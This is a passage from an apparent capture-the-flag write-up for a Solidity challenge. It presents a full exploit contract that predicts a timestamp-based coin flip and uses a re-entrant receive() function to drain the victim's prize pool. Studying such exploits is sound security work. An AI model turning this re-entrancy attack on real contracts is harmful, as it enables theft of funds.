 Note that we also want to check that we only trigger the vulnerable re-entrancy function if we have already won the game, and we only wish to keep drawing the funds if there are even funds to draw.

## Wrapping it all up like a Sushi Roll
Alright, now that we understand what we need to do, let's implement the full exploit contract!

```solidity
contract Attack {
    RollsRoyce victim;
    address owner;

    constructor(address payable _addr) public payable {
        owner = msg.sender;
        victim = RollsRoyce(_addr);
    }

    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }

    function win() public payable {
        require(address(this).balance >= 1 ether, "Send contract some ether");
        RollsRoyce.CoinFlipOption result = flipCoin();
        victim.guess{value: 1 ether}(result);
        victim.revealResults();
    }

    function pwnContract() public payable {
        for (uint i = 0; i < 3; i++) {
            win();
        }
        victim.withdrawFirstWinPrizeMoneyBonus();
    }

    receive() external payable {
        if (victim.viewWins(address(this)) >= 3 && address(victim).balance > 0) {
            victim.withdrawFirstWinPrizeMoneyBonus();
        }
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

    function withdrawBalance(uint amount) public {
        require(msg.sender == owner, "You not owner!");
        require(address(this).balance >= amount, "This contract has no more funds!");
        (bool success, ) = msg.sender.call{value: amount}("");
    }
}
```
